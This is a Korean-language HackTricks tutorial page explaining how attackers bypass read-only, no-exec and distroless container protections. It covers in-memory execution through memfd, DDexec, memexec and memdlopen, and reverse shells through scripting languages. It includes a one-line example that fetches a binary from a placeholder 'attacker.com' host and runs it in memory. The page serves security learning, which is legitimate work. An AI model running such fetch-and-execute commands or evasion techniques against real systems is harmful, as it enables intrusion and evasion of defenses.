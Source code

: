 # FS 보호 우회: 읽기 전용 / 실행 금지 / Distroless

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 채용 중입니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서 이 페이지에 언급된 기술을 더 깊이 설명합니다:

* [**DEF CON 31 - 리눅스 메모리 조작 탐색을 통한 은폐 및 회피**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 인메모리 dlopen()을 통한 은폐 침입 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 읽기 전용 / 실행 금지 시나리오

리눅스 머신이 **읽기 전용 (ro) 파일 시스템 보호**로 마운트되는 경우가 점점 더 많아지고 있습니다. 특히 컨테이너에서 그렇습니다. 이는 **`readOnlyRootFilesystem: true`**를 `securitycontext`에 설정하는 것만으로도 컨테이너를 ro 파일 시스템으로 실행할 수 있기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되더라도 **`/dev/shm`**는 여전히 쓰기가 가능하므로 디스크에 아무것도 쓸 수 없다는 것은 잘못된 것입니다. 그러나 이 폴더는 **실행 금지 보호**로 마운트되므로 여기에서 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
레드 팀 관점에서 볼 때, 이는 시스템에 이미 없는 바이너리(예: 백도어 또는 `kubectl`과 같은 열거기)를 다운로드하고 실행하는 것을 **복잡하게 만듭니다**.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, **인터프리터가 머신 내에 있는 한** 어떤 스크립트도 **실행할 수 있습니다**. 예를 들어 `sh`가 있는 경우 **셸 스크립트**를 실행하거나 `python`이 설치된 경우 **파이썬 스크립트**를 실행할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행하기에 충분하지 않습니다.

## 메모리 우회

바이너리를 실행하고 싶지만 파일 시스템이 이를 허용하지 않는 경우, 가장 좋은 방법은 **메모리에서 실행하는 것**입니다. 왜냐하면 **보호가 적용되지 않기 때문입니다**.

### FD + exec 시스템 호출 우회

머신 내에 **Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 메모리 파일 설명자(`create_memfd` 시스템 호출)에 저장한 다음, **`exec` 시스템 호출**을 호출하여 **실행할 파일로 fd를 지정**할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 바이너리를 전달하면 **바이너리가 압축되고 b64로 인코딩된** 스크립트를 지정된 언어로 생성하며, **fd**를 생성하여 `create_memfd` 시스템 호출을 호출하고, 이를 실행하기 위한 **exec** 시스템 호출을 포함합니다.

{% hint style="warning" %}
이 방법은 PHP나 Node와 같은 다른 스크립팅 언어에서는 작동하지 않습니다. 왜냐하면 스크립트에서 원시 시스템 호출을 호출하는 **기본 방법이 없기 때문입니다**. 따라서 바이너리를 저장할 **메모리 fd**를 생성하기 위해 `create_memfd`를 호출할 수 없습니다.

또한 `/dev/shm`에 있는 파일로 **정규 fd**를 생성하는 것도 작동하지 않습니다. 왜냐하면 **실행 금지 보호**가 적용되기 때문에 실행할 수 없기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 기술은 **자신의 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓰는 방법입니다.

따라서 **프로세스에서 실행되는 어셈블리 코드를 제어**함으로써 **셸코드**를 작성하고 프로세스를 "변형"하여 **임의의 코드를 실행**할 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**를 사용하면 **메모리**에서 자신의 **셸코드** 또는 **어떤 바이너리**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
더 많은 정보는 이 기술에 대해 Github를 확인하거나:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. **다른 바이너리**를 **실행**하고 싶을 때마다 DDexec를 다시 시작할 필요 없이, DDexec 기술을 통해 memexec 셸코드를 실행하고 **이 데몬과 통신하여 새 바이너리를 로드하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 리버스 셸에서 바이너리를 실행하는 방법에 대한 예시는** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 확인할 수 있습니다.

### Memdlopen

DDexec와 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 바이너리를 로드하는 더 쉬운 방법**을 제공합니다. 이는 의존성이 있는 바이너리도 로드할 수 있게 해줄 수 있습니다.

## Distroless Bypass

### Distroless란 무엇인가

Distroless 컨테이너는 특정 애플리케이션이나 서비스 실행에 필요한 **최소한의 구성 요소**만 포함하고 있으며, 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 더 큰 구성 요소는 제외합니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거하여 컨테이너의 공격 표면을 줄이고** 악용될 수 있는 취약점의 수를 최소화하는 것입니다.

### 리버스 셸

Distroless 컨테이너에서는 **정상적인 셸을 얻기 위해 `sh` 또는 `bash`**를 찾을 수 없을 수도 있습니다. `ls`, `whoami`, `id`와 같은 바이너리도 찾을 수 없습니다... 시스템에서 일반적으로 실행하는 모든 것입니다.

{% hint style="warning" %}
따라서, **리버스 셸**을 얻거나 **시스템을 열거**할 수 없습니다.
{% endhint %}

그러나 손상된 컨테이너가 예를 들어 플라스크 웹을 실행하고 있다면, 파이썬이 설치되어 있으므로 **파이썬 리버스 셸**을 얻을 수 있습니다. 노드를 실행하고 있다면 Node 리버스 셸을 얻을 수 있으며, 대부분의 **스크립팅 언어**와 마찬가지입니다.

{% hint style="success" %}
스크립팅 언어를 사용하여 언어의 기능을 활용하여 **시스템을 열거**할 수 있습니다.
{% endhint %}

**`read-only/no-exec`** 보호가 없다면, 리버스 셸을 악용하여 **파일 시스템에 바이너리를 작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 이러한 보호가 일반적으로 존재하지만, **이전 메모리 실행 기술을 사용하여 우회할 수 있습니다**.
{% endhint %}

**RCE 취약점을 악용하여 스크립팅 언어의 리버스 셸을 얻고 메모리에서 바이너리를 실행하는 방법에 대한 예시는** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 확인할 수 있습니다.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.

</details>
{% endhint %}
